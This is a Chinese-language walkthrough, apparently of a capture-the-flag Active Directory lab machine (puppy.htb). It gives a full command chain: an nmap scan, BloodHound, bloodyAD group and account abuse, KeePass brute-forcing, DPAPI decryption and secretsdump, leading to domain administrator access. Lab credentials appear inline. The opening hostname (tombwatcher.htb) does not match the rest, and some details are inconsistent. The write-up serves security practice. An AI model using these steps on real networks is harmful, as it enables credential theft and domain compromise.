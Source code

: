 ## 第一步：信息收集 — 端口扫描

### 使用工具

```bash
nmap -sC -sV -Pn -p- <target-ip>
```
### 目标主机信息

- **主机名称**: DC01.tombwatcher.htb
- **域**: tombwatcher.htb

-**存在典型域控（AD）服务**：LDAP、Kerberos、SMB、Global Catalog 等。

-**IIS (80端口)** 可作为潜在的外部攻击面（WEB 漏洞、登录页面、潜在 RCE）。

-**存在 WinRM（5985 端口）**，如果后续拿到有效凭据，可直接尝试远程命令执行。

![c2b3c2926b05ffa8637ff1da73ea24a](https://github.com/user-attachments/assets/0de03887-5263-42df-8867-0a5bc8d97373)

一看就知道是经典的域渗透， 直接上bloodhound 分析内网结构

### BLOOD HOUND
```bash
loodhound-python -u 'levi.james' -p 'KingoFAkron2025!' -d puppy.htb -dc dc.puppy.htb -c all -ns 10.10.11.70 --zip
```
![3694f18522bfbc84c5a94546026f1a3](https://github.com/user-attachments/assets/93751a5d-debd-4743-952c-070daba60aff)


Bloodhound 发现一开始题目给的james 账号密码 发现他是HR@PUPPY.HTB 同时对 Developer@PUPPY.HTB 有 generic write权限，正好在smb 服务里有 dev目录不能访问


## 第二步：获取dev 目录下敏感信息

先将 james 加入 Developer 组 然后 smb 尝试登录 访问dev 下目录
```bash
bloodyAD --host 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb add groupMember developers levi.james
```

![0fd1426c5ba5b7c63c781f499f50f88](https://github.com/user-attachments/assets/5aad23e0-5a62-4437-9441-cc452bc3a00c)


然后讲密码本下载到本地 进行破解 得到密码 liverpool

```bash
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```
![23e422325d81393bcca4f8998dafe88](https://github.com/user-attachments/assets/431c08eb-9972-41bf-aee4-264265767141)

然后进入密码本 转换成xml 格式 搜索 存在的密码
![17ad2a2787560902150ce2860b6a8f9](https://github.com/user-attachments/assets/131a9820-c915-44c1-a8c0-b7c2847adcb7)

这里发现密码有以下几个 
JamieLove2025@
HJKL2025!
Antman2025！
Steve2025！
ILY2025!

集合BLOODHOUND 的内室图 攻击的起点明显是 EDWARDS, 手动尝试后 发现密码为 Antman2025！
![image](https://github.com/user-attachments/assets/f4125eb1-c468-47b0-a362-792acb4eb1b6)


## 第三步：横向移动
发现 edwards 拥有对 adam sikver generic all 权限 直接改密码
![image](https://github.com/user-attachments/assets/2794044f-f493-4656-8bd1-3d146a83f984)

![104a34a31906c2a56383e9a6a407b91](https://github.com/user-attachments/assets/befb95b6-1327-4884-91e0-e568c1df2dfc)
但是账号没有激活， 那就激活一下 adam silver

![deeac9813fb548a61ea2ff82aa3e12d](https://github.com/user-attachments/assets/170478a5-eeb7-49c8-9896-576c0cb724bb)

```bash
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --host 10.10.11.70 remove uac -f LOCKOUT -f ACCOUNTDISABLE adam.silver
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --host 10.10.11.70 get object adam.silver --attr userAccountControl

```
同时winrm 登录进 adam silver ，在backup目录 底下 发现  steven cooper的账号密码： steph.cooper ChefSteph2025!

同时开启 本地开启 smb share
随后上传 winpeas.exe 扫描
发现这两个敏感目录

![image](https://github.com/user-attachments/assets/5f7dc06c-2dd6-460b-a6a1-ffe72d5963ea)

![image](https://github.com/user-attachments/assets/9ab0b8f7-cce3-4b2e-8680-14312aed0583)

通过smb share 服务 讲这两个下载到本地 
![9005dd2ccf5da0210c66091be5a99ec](https://github.com/user-attachments/assets/3b85822b-77e9-4c01-9ec3-56a543621d28)
![6fec76e52f760cccdbe0ca187a3c0ef](https://github.com/user-attachments/assets/c20513cd-dcab-4748-a5fd-e5cea1a0c7cb)


随后把这两个文件进行破解
首先解密 master key

```bash
impacket-dpapi masterkey -file ./556a2412.masterkey -password 'ChefSteph2025!' -sid 'S-1-5-21-1487982659-1829050783-2281216199-1107'
```

在 Windows 中，很多敏感信息（如浏览器凭据、RDP 凭据、密码 vault 等）会用 DPAPI (Data Protection API) 加密，依赖 masterkey 文件来保护实际加密密钥（user key）。

流程：
1. 用户凭证派生出 masterkey 的保护密钥
2. 使用 masterkey 解密真正存储数据的 key（session key 或 DPAPI blob）

随后用key 解密 credential 文件

```bash
impacket-dpapi credential -f cred -key <decrypted key>
```

![eeabdf7971df489faf5bef6d737cf0c](https://github.com/user-attachments/assets/e46f0a1d-7ca7-4809-9613-d533641ec811)

![b33836a34b331d4fea0546f4c7d75cb](https://github.com/user-attachments/assets/805ed127-a588-4a82-9741-c67b7f5754b4)

这里直接拿到了另外一个账户的密码 steph.cooper_adm FivethChipOnItsWay2025! 

```bash
impacket-secretsdump 'puppy.htb/steph.cooper_adm':'FivethChipOnItsWay2025!'@10.10.11.70
```
最后一步 拿到 aministrator 的哈希 直接登录

![09d0a42d365a8bfe18b1d7295239169](https://github.com/user-attachments/assets/c83809a5-0017-4545-8982-2b5c91df8669)

